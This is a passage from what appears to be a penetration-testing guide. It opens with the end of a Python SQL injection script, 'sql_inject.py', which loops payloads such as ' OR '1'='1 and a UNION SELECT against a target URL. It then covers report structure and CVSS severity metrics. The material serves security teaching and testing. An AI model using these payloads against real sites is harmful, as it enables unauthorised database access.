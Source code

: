 ```python

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 sql_inject.py <target_url>")
        sys.exit(1)
    
    target_url = sys.argv[1]
    payloads = [
        "' OR '1'='1",
        "admin'--",
        "' UNION SELECT 1,2,3--"
    ]
    
    for payload in payloads:
        if exploit_sql_injection(target_url, payload):
            break

if __name__ == "__main__":
    main()
```

### Reporting & Documentation

#### Executive Summary

**Key Components**

| Section | Content | Audience |
|---|---|---|
| **Executive Summary** | High-level findings, business impact | C-level executives |
| **Scope and Methodology** | Testing parameters, approach | Technical managers |
| **Risk Assessment** | Vulnerability severity, likelihood | Risk managers |
| **Recommendations** | Prioritized remediation steps | IT teams |
| **Technical Findings** | Detailed vulnerabilities | Security engineers |

#### Vulnerability Severity Rating

**CVSS (Common Vulnerability Scoring System)**

| Metric | Description | Values |
|---|---|---|
| **Attack Vector** | How the vulnerability is exploited | Network, Adjacent, Local, Physical |
| **Attack Complexity** | Conditions beyond attacker control | Low, High |
| **Privileges Required** | Level of privileges needed | None, Low, High |
| **User Interaction** | Whether user interaction is required | None, Required |
| **Scope** | Impact on other components | Unchanged, Changed |
| **Impact** | Effect on confidentiality, integrity, availability | None, Low, High |
